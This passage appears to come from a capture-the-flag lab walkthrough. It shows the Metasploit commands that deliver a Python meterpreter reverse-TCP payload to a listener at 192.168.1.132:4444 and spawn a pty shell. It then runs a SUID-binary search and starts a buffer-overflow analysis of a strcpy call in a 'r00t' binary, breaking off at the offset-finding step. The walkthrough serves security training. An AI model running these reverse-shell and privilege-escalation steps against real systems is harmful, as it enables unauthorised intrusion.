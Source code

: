 msf > use multi/script/web\_delivery msf exploit(multi/script/web\_delivery) > set payload python/meterpreter/reverse\_tcp msf exploit(multi/script/web\_delivery) > set lhost 192.168.1.132 msf exploit(multi/script/web\_delivery) > set lport 4444 msf exploit(multi/script/web\_delivery) > run

1

2

3

4

5

msf  \>  use  multi/script/web\_delivery

msf exploit(multi/script/web\_delivery)  \>  set payload python/meterpreter/reverse\_tcp

msf exploit(multi/script/web\_delivery)  \>  set lhost  192.168.1.132

msf exploit(multi/script/web\_delivery)  \>  set lport  4444

msf exploit(multi/script/web\_delivery)  \>  run

![](https://i1.wp.com/3.bp.blogspot.com/-mctwU3pPDcc/W2GaWudIFuI/AAAAAAAAZB8/dCk1ZyIg0uYd4LWbCsqRtQ6O8dCQTsF1ACEwYBhgL/s1600/21.png?w=687&ssl=1)  
We copied above-generated python code to the improper bash we just created.  
![](https://i1.wp.com/2.bp.blogspot.com/-V702QlFzghk/W2GaWtSTDzI/AAAAAAAAZCA/Sb9VqUzEaJkFSOei-21l3W9Ug8ufAId8wCEwYBhgL/s1600/22.png?w=687&ssl=1)  
On the other hand, we had got a meterpreter session.  

sysinfo

1

sysinfo

![](https://i0.wp.com/3.bp.blogspot.com/-IOj104WULWA/W2GaW3sBiYI/AAAAAAAAZCE/cU94x3aePSMnvFyHwhPaNNNlzoVaX17TwCEwYBhgL/s1600/23.png?w=687&ssl=1)  
Let’s get into the shell and try to spawn a proper teletype.  

shell python –c "import pty;pty.spawn('/bin/bash');" find / -perm -4000 2>/dev/null

1

2

3

shell

python  –c  "import pty;pty.spawn('/bin/bash');"

find  /  \-perm  \-4000  2\>/dev/null

![](https://i0.wp.com/2.bp.blogspot.com/-M11LcTF74vQ/W2GaXFoSvpI/AAAAAAAAZCI/5Ng1ZUw-8dwLko-SHlJ0mNkG_VzHibOxgCEwYBhgL/s1600/24.png?w=687&ssl=1)  
The r00t binary in these directory work differently and change their behavior with each other on every reboot. One of these binaries (in our case it was in door2, it changes on reboot) accept a string as an argument and print it.  
![](https://i1.wp.com/1.bp.blogspot.com/-PLL8ztseE7w/W2GaXH4NYDI/AAAAAAAAZCM/GNKfPTEdbMs0ZwCjl6Av3reQVXVuZdu6QCEwYBhgL/s1600/25.png?w=687&ssl=1)  
We open the binary in gdb debugger to look at the assembly code for the binary. At main+71 we find a strcpy function, as the strcpy function is vulnerable to buffer overflow we try to exploit it.  
![](https://i0.wp.com/2.bp.blogspot.com/-5hglzlZh020/W2GaXrHy7BI/AAAAAAAAZCQ/4G7Gwexu9xQL0arQrtNu3He7f7a26lLiwCEwYBhgL/s1600/26.png?w=687&ssl=1)  
First, we create a 500 bytes long string to find the EIP offset using a pattern\_create script.  
